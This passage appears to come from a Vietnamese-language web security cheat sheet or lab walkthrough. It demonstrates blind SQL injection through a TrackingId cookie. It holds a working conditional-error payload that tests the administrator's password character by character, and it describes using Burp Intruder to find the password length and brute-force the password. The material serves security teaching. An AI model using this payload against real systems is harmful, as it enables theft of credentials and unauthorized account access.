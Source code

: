 <b>Đưa request vào Intruder để tìm độ dài password</b>

![](../images/web/sql/cheatsheet/12.png)
<br><b>Tìm được độ dài password = 20</b>

<h3>Tiêm điều kiện substring vào when</h3>

```sql
TrackingId=FLlU53TriGta5uwA'||(select case when substr(password,1,1)>'a' then to_char(1/0) else '' end from users where username='administrator')||'
```
![](../images/web/sql/cheatsheet/13.png)
<br><b>Mã trả về 500, chứng minh ký tự đầu tiên của password > 'a'</b>

<b>Đưa request vào Intruder để bruteforce password</b>

![](../images/web/sql/cheatsheet/14.png)

